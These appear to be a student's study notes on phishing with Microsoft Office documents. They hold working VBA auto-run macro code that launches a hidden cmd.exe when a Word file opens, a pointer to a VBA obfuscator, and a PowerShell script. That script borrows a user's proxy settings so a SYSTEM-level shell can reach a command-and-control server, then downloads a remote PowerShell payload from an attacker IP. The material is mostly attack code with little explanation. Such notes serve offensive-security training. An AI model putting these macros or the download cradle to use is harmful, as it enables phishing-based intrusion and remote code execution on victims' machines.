

Phishing with Office (THEORY)
intro
- • • declare VBA variables before using them via Dim
Dim myString As String
Dim myLong As Long
Dim myPointer As LongPtr
- • • enable content => execute macro
- Applied protection view when files originate from internet
Shell
- • • View => macros => in the droppodwon select our document
- save the document in the legacy .doc format (also called Word 97-2003 Document) and
Sub Document_Open()
MyMacro
End Sub
Sub AutoOpen()
MyMacro
End Sub
Sub MyMacro()
Dim str As String
str = "cmd.exe"
Shell str, vbHide
End Sub
Other obfuscation techniques
- https://github.com/bonnetn/vba-obfuscator
Proxy-unaware shells bypass
- if we have SYSTEM integrity shell => proxy unaware => can't get back to our c2 server
- In order to run our session through a proxy, we must create a proxy configuration for the built-in SYSTEM account.
- One way to do this is to copy a configuration from a standard user account on the system.
- HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\InternetSettings
- When navigating the registry, the HKEY_CURRENT_USER registry hive is mapped according to the
user trying to access it, but when navigating the registry as SYSTEM, no such registry hive exists.

New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start =
$key.Name.substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.119.120/run2.ps1")